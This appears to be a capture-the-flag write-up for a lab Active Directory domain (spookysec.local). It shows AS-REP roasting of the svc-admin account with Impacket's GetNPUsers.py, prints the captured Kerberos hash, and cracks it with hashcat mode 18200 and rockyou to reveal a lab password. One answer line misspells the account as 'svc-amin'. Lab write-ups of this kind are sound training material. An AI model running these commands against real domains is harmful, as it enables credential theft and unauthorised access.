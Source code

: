 ## #5.1 - We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

Kerberos pre-authentication has been disabled for `svc-admin`:

~~~
$ GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.104.142
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9e9d37205ca2b017be8b60ae4decc7d8$4d81d588e53cd91588752a3d06537c32d95b9e71c8ad9000bfb2442ae8fdd36a7448fca372decebd0d6ef2a0020b5eea2d690503018447cbd9422ff59fe0aa62777c8840112179b56a1971f083ca17ef83a29d4815f86c3c5836420de128f7c9d6975bd367c02b2f22ce506b61ce0ebaa2a664b59fa40a7fa1d04db8654d62c3f09c803025e270ef112a2f833b4e2d8bc1fe756d58fa734277b25b77e521e57a7a77dc19d517a692704f5c68a5593f552bacc82202f44fecf34ddf36f97ed54d65432eef3739fad5b9ce14fbf81b306503b0191dd3eda6ed3e7ade34bb37cc1b3ee16b240369df8fb7cb79d367bee2c66b2c
~~~

But not for `backup`:

~~~
$ GetNPUsers.py spookysec.local/backup -request -no-pass -dc-ip 10.10.104.142
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
~~~

Answer: `svc-amin`

## #5.2 - Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

*Hint: https://hashcat.net/wiki/doku.php?id=example_hashes and searching for the first part will help!*

Searching for the string `krb5asrep` on the [hashcat hashtype page](https://hashcat.net/wiki/doku.php?id=example_hashes) reveals that the hash has the following type:

* Hash mode: 18200
* Hash name: Kerberos 5 AS-REP etype 23

Answer: `Kerberos 5 AS-REP etype 23`

## #5.3 - What mode is the hash?

Answer: `18200`

## #5.4 - Now crack the hash with the modified password list provided, what is the user accounts password?

~~~
$ hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt 
hashcat (v5.1.0) starting...

[REDACTED]


$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:d2c7d46d6[REDACTED]92d7576bad:management2005


Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
~~~